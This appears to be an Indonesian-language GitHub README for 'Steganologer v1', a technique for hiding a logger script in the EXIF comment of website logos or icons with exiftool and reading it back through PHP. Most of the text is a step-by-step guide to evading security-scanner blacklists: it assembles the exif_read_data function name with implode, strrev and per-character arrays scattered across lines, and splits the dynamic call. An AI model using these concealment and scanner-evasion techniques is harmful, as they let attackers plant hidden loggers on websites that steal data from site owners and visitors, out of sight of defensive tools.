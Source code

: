 # Steganologer v1

Pada Steganologer versi 1 memanfaatkan exif metadata untuk menyisipkan script loger.
untuk membaca metadata suatu gambar anda bisa memakai function [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) dan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) pada php.

Untuk memanipulasi exif metadata anda bisa menggunakan pothoshop,exifpilot dll pada sistem operasi windows, sedangkan pada linux anda bisa menggunakan exiftool.
Anda bisa menyisipkannya di logo atau icon pada website.

```
exiftool -Comment="scriptloger" filegambar.jpg
```

### Reader


```php
$steganologer = exif_read_data("bunglon.jpg");
echo $steganologer['COMMENT'][0];
```

### Bypass

bila scanner memblacklist kata [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) .
anda bisa mengakalinya dengan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php).

bila [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) juga di blasklist.
anda masih bisa membypassnya dengan array lalu di implode.
```php
implode("_",["exif","read","data"])("bunglon.jpg")
```

bila kata "exif" di blacklist juga maka bisa di bypass dengan membalikkan katanya menjadi "fixe" lalu manfaatkan function [strrev()](http://php.net/manual/en/function.strrev.php) di php.

dan bila kata fixe juga di blacklist maka bisa di bypass dengan manjadikan tiap hurufnya menjadi array
```php
implode("",["e","x","i","f","_","r","e","a","d","_","d","a","t","a"])("bunglon.jpg")
```
dan bila array berikut 
```
'"e","x","i","f","_","r","e","a","d","_","d","a","t","a"' 
```
di blacklist maka pecah saja menjadi
```php
$kata[] = "e";
$kata[] = "x";
$kata[] = "i";
$kata[] = "f";
$kata[] = "_";
$kata[] = "r";
$kata[] = "e";
$kata[] = "a";
$kata[] = "d";
$kata[] = "_";
$kata[] = "d";
$kata[] = "a";
$kata[] = "t";
$kata[] = "a";
```

lalu sebarkan di beda line script asal urutannya benar pasti functionnya kembali seperti semula namun bila takut tak urut maka masukan keynya saja sehingga menjadi seperti berikut ini

```php
$kata[0] = "e";
$kata[1] = "x";
$kata[2] = "i";
$kata[3] = "f";
$kata[4] = "_";
$kata[5] = "r";
$kata[6] = "e";
$kata[7] = "a";
$kata[8] = "d";
$kata[9] = "_";
$kata[10] = "d";
$kata[11] = "a";
$kata[12] = "t";
$kata[13] = "a";
```

lalu sebar sesuka anda dan di line berapa pun nanti ketika di implode akan kembali. 

```php
implode("",$kata)("bunglon.jpg")
```

bila scanner memblacklist ")(" maka bypass dengan  memisahkan function implode

```php
$implode = implode("",$kata);

echo $implode("bunglon.jpg")
```

masih banyak function php yang bisa di manfaatkan untuk bermain loger explore dan manfaatkan.